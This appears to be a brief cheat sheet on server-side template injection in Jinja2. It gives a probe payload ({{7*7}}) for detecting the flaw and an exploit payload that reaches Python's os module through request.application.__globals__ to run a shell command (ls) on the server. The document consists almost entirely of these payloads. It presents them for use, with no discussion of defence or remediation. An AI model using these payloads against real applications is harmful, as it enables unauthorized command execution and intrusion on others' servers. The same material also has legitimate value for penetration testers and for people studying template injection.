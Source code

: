 # SSTI Cheatsheet (Jinja2-based)

## Test Payloads

- `{{7*7}}` → Should return `49` if SSTI is possible

## Exploit Payloads

- List files on server:
  `jinja2`
  {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
